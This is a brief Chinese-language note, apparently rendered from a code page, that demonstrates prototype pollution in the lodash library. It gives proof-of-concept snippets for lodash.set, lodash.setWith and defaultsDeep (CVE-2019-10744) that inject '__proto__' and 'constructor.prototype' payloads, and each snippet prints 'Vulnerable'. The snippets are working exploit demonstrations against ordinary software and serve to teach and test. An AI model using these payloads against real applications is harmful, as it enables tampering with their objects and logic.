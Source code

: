 ### 由传入参数定义对象属性

#### lodash.set

```js
set(object, path, value);
```

设置值到对象对应的属性路径上

```js
var lodash= require('lodash');

var object_1 = { 'a': [{ 'b': { 'c': 3 } }] };
var object_2 = {}

console.log(object_1.whoami);
// undefined
lodash.set(object_2, '__proto__.["whoami"]', 'Vulnerable');
console.log(object_1.whoami);
// Vulnerable
```

#### lodash.setWith

```js
setWith(object, path, value, [customizer])
```

POC

```js
var lodash= require('lodash');

var object_1 = { 'a': [{ 'b': { 'c': 3 } }] };
var object_2 = {}

console.log(object_1.whoami);
// undefined
lodash.setWith(object_2, '__proto__.["whoami"]', 'Vulnerable');
console.log(object_1.whoami);
// Vulnerable
```

#### lodash.defaultsDeep/CVE-2019-10744

```js
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"constructor": {"prototype": {"a0": true}}}'

function check() {
    mergeFn({}, JSON.parse(payload));
    if (({})[`a0`] === true) {
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
  }

check();
```

